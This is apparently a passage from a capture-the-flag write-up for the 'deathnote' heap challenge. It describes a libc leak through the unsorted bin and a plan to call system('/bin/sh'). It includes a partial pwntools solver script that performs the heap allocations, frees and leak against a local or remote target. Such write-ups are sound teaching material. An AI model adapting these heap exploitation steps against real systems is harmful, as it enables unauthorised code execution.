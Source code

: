 We see that the `unsorted bin` contains a `libc address`. We leak this and calculate the offset for `libc base` and we are ready to proceed. 

Last but not least, we need to make 2 last allocations to enter the address of `system` and the string `"/bin/sh"` and then enter `42` to call `_` and execute it.

# Solution

```python
#!/usr/bin/python3
from pwn import *
import warnings
import os
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

prompt = '💀'.encode('utf-8')

fname = './deathnote' 

LOCAL = False

os.system('clear')

if LOCAL:
  print('Running solver locally..\n')
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)
  print(f'Running solver remotely at {IP} {PORT}\n')

r.timeout = 0.5

e    = ELF(fname)
libc = ELF(e.runpath.decode() + 'libc.so.6')

rl   = lambda     : r.recvline()
ru   = lambda x   : r.recvuntil(x)
sla  = lambda x,y : r.sendlineafter(x,y)
slap = lambda y   : r.sendlineafter(prompt,y)

def malloc(sz, idx, payload):
  slap('1')
  slap(str(sz))
  slap(str(idx))
  slap(payload)

def free(idx):
  slap('2')
  slap(str(idx))

def show(idx):
  slap('3')
  slap(str(idx))

[malloc(0x80, i, 'w3t') for i in range (9)]

[free(i) for i in range (8)]

show(7)
```
